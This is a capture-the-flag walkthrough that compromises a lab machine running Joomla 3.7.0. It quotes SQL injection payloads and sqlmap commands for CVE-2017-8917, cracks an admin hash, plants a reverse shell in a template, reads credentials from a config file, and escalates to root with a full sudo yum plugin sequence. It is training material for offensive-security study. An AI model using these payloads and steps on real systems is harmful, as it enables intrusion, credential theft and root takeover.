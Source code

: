 ```yaml
---
sticker: emoji//1f577-fe0f
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | STATE | SERVICE |
| :--- | :---- | :------ |
| 22   | open  | ssh     |
| 80   | open  | http    |
| 3306 | open  | mysql   |

We got 3 open ports, let's take a look at the website:

![](../images/Pasted%20image%2020241121165122.png)

Seems like a simple website, let's try to fuzz in order to find anything, if not, I think that login part is interesting and we could go back to check any vulnerability in it

## FUZZING
---

![](../images/Pasted%20image%2020241121165255.png)

We found a lot of directories, let's take a look at `/administrator`

![](../images/Pasted%20image%2020241121170507.png)

Got a login page for admin in this, if we look around the page source, we are able to identify this is `Joomla 3.7.0`


# RECONNAISSANCE
---

![](../images/Pasted%20image%2020241121170613.png)
Searching up for an exploit related to this version, we find this, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQL Injection]] vulnerability, let's take a look at the exploit itself:


```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
    
```

We can either use sqlmap or an exploit developed in python, I used the exploit as it is way more easier to retrieve the data:

```ad-hint

#### Exploit 

[exploit](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
)

##### Output
---

![](../images/Pasted%20image%2020241121171916.png)

We got the user `jonah` and a password in a hash formato, let's crack that hash using `john`

hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`


#### John
----

![](../images/Pasted%20image%2020241121174205.png)

got password `spiderman123`


```

![](../images/Pasted%20image%2020241121175307.png)

We are inside the panel, let's begin with exploitation to get our reverse shell

# EXPLOITATION
---


Once we are inside the panel, if we go to templates, we see the following:



![](../images/Pasted%20image%2020241121175454.png)

If we dig up further, we notice we are able to modify the `index.php` in order to put a reverse shell:



![](../images/Pasted%20image%2020241121175549.png)

Put the reverse shell, set up listener, refresh the page and get the shell:

![](../images/Pasted%20image%2020241121180244.png)

Once we got our shell, let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize]] it and try to get anything useful:

![](../images/Pasted%20image%2020241121180409.png)

We have now an stable shell, let's take a look at how many users are in this machine:


![](../images/Pasted%20image%2020241121180459.png)

Two users, `jjameson` and `root`, we need some sort of way to get jameson's password to switch into that user, if we take a look at previous pictures, we have a `configuration.php` file, let's `cat` on it:


![](../images/Pasted%20image%2020241121180633.png)

Nice, we found the password, let's switch users:


```ad-note

#### Credentials
---

`jjameson` : `nv5uz9r3ZEDzVjNu` 
```

![](../images/Pasted%20image%2020241121180958.png)

Nice, we were able to switch users. Let's proceed with privilege escalation


# PRIVILEGE ESCALATION
---


## SUDO -L


If we use `sudo -l` on `jjameson`, we get the following:


![](../images/Pasted%20image%2020241121181128.png)

We are able to run sudo in `/usr/bin/yum`, if we check what [GTFOBINS](https://gtfobins.github.io/) have for us, we get this:

![](../images/Pasted%20image%2020241121181231.png)

So, in order to get a root shell, we need to do the following:

```ad-summary

1. `TF=$(mktemp -d)`
2. `cat >$TF/x<<EOF`
3. `[main]`
4. `plugins=1`
5. `pluginpath=$TF`
6. `pluginconfpath=$TF`
7. `EOF`
8. `cat >$TF/y.conf<<EOF`
9. `[main]`
10. `enabled=1`
11. `EOF`
12. `cat >$TF/y.py<<EOF`
13. `import os`
14. `import yum`
15. `from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE`
16. `requires_api_version='2.1'`
17. `def init_hook(conduit):`
18. `  os.execl('/bin/sh','/bin/sh')`
19. `EOF`
20. `sudo yum -c $TF/x --enableplugin=y`

#### PoC
---

![](../images/Pasted%20image%2020241121181849.png)

Got a shell as root and like that, CTF is over.

```


